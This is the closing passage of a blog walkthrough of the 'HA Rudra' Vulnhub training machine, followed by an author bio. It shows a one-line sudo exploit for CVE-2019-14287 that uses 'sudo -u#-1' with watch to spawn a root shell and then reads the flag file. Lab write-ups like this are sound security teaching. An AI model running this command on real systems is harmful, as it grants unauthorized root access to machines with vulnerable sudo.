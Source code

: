### **Privilege Escalation**

The author added this loophole because it is the latest zero-day exploit CVE: 2019-14287 and you should to proactive to bypass it.

Type following for escalating the root the shell:

```
sudo -u#-1 watch -x sh -c 'reset; exec sh 1>&0 2>&0' -u  
cd root  
cat final.txt
```

**Conclusion:** The VM was designed to cover each track of the kill chain by considering red team approach and proactive learning with latest vulnerabilities.

Hope you have enjoyed this machine. Happy Hacking!!!!!!!

![](https://i1.wp.com/1.bp.blogspot.com/-vl5IczmPAjU/XbvioTnIcXI/AAAAAAAAhOU/KhxoF30OfOUWWYYp6np40DxdkbvhDvnigCLcBGAsYHQ/s1600/18.png?w=687&ssl=1)

**Author**: Komal Singh is a Cyber Security Researcher and Technical Content Writer, she is completely enthusiastic pentester and Security Analyst at Ignite Technologies. Contact [**Here**](https://www.linkedin.com/in/komal-rajput-26b783131/)

The post [HA Rudra: Vulnhub Walkthrough](https://www.hackingarticles.in/ha-rudra-vulnhub-walkthrough/) appeared first on [Hacking Articles](https://www.hackingarticles.in).

  
  
from Hacking Articles https://ift.tt/34hSSVh